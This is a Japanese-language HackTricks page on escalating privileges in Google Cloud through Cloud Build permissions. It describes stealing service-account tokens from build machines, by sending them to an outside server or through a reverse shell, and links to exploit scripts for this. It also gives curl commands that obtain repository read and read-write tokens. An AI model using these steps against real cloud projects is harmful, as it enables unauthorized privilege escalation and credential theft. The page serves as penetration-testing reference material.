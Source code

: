 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Cloud Buildに関する詳細情報は、以下を確認してください：

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`

この権限を持つことで、**クラウドビルドを提出**できます。cloudbuildマシンのファイルシステムには、**デフォルトでcloudbuildサービスアカウントのトークン**が含まれています：`<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`。ただし、cloudbuild構成内で**プロジェクト内の任意のサービスアカウントを指定することができます**。\
したがって、マシンからトークンをあなたのサーバーに流出させるか、**その中でリバースシェルを取得してトークンを入手することができます**（トークンを含むファイルは変更される可能性があります）。

元のエクスプロイトスクリプトは[**こちらのGitHubで**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)見つけることができます（ただし、トークンを取得する場所は私には機能しませんでした）。したがって、[**脆弱な環境の作成、エクスプロイト、クリーンアップを自動化するスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)と、cloudbuildマシン内でリバースシェルを取得し、[**それを盗むためのPythonスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py)を確認してください（コード内で他のサービスアカウントを指定する方法が見つかります）**。**

より詳細な説明については、[https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)を訪問してください。

### `cloudbuild.builds.update`

**潜在的に**この権限を持つことで、**クラウドビルドを更新し、サービスアカウントトークンを盗む**ことができるでしょう（ただし、残念ながらこの執筆時点ではそのAPIを呼び出す方法を見つけることができませんでした）。

TODO

### `cloudbuild.repositories.accessReadToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りアクセス トークン**を取得できます：
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りおよび書き込みアクセストークン**を取得できます：
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

この権限を使用すると、**接続がアクセスできるリポジトリを取得できます:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
